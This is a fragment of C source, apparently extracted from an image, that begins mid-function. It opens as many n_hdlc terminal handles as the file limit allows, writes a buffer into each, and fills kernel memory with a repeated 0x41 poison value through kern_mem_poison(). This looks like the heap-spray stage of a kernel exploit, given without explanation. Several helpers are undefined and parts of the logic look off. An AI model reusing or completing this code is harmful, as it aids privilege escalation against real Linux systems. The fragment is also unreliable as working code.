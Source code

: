 ```c
	struct rlimit rlim;
	err = max_open_files(&rlim);
	if (err == -1) {
		return -1;
	}

	int fd[rlim.rlim_cur];
	long i;
	for (i = 0; i < rlim.rlim_cur; i++) {
		if (!get_memory_avail())
			if (mem_avail < (len*2))
				break;
		fd[i] = open_n_hdlc();
		if (fd[i] == -1) {
			break;
		}

		err = write(fd[i], buf, len);
		if (err == -1) {
			break;
		}
	}

	if (i < rlim.rlim_cur)
		for (long j = i; j < rlim.rlim_cur; j++)
			fd[j] = -1;

	for (i = 0; i < rlim.rlim_cur; i++) {
		close(fd[i]);
		fd[i] = -1;
	}

	return 0;
}

#define	POISON_VALUE 0x4141414141414141
int main(int argc, char *argv[])
{
	char buf[4096];
	unsigned long *addr = buf;
	for (int i = 0; i < 4096 / 8; i++) {
		addr[i] = POISON_VALUE;
	}
	kern_mem_poison(buf, 4096);
	return 0;
}
```
